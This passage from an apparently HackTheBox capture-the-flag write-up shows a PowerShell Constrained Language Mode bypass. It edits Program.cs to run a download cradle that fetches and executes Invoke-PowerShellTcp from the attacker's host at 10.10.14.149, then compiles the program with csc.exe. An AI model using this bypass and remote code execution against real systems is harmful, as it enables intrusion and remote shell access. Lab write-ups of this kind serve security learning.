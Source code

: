 






put the CLMBypassBlogpost repository on your Windows VM ,and Within the code of Program.cs, I changed the command executed to download Invoke-PowerShellTcp from our machine.

```bash
String exec = "iex(new-object net.webclient).downloadstring('http://10.10.14.149/emsec')";  // Modify for custom commands
```

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/38.png"  >


Then, we can compile it using csc.exe within our Windows machine.

```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /reference:System.Management.Automation.dll Program.cs
```
<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/39.png"  >
